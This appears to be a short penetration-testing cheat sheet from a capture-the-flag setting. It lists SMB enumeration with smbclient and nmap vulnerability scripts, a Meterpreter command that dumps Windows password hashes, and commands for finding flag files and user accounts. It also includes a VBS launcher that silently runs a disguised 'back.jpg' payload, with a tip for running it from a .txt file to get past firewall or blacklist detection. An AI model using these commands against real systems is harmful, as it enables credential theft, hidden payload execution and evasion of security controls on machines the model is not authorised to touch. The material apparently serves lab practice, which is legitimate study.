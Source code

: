 For SMB

    smbclient -L //ip/
  
`this shows the directory on smb listening`

    smbclient //ip/{directory from above command}
  
For SMB Exploit 

    nmap -sC -sV -A ip --script=smb-vuln*
  
hashdump of windows

`inside the meterpreter shell` 

    run post/windows/gather/hashdump

Searching Files or Flag in windows machine

    dir flag*.txt /s /p
Fatching the usernames of the machine

    net users
    
VBS script 

```
Set WshShell = CreateObject("WScript.Shell")
WshShell.Run chr(34) & "D:\back.jpg" & Chr(34), 0
WshShell.Run chr(34) & "C:\Program Files\Google\Chrome\Application\chrome.exe" & Chr(34), 0
Set WshShell = Nothing
```
   
save it as file.vbs , in case firewall detects or blacklist vbs file you can save it as txt file and still run it as vbs with bellow command 

    wscript /e:VBScript c:\Users\thm\Desktop\payload.txt


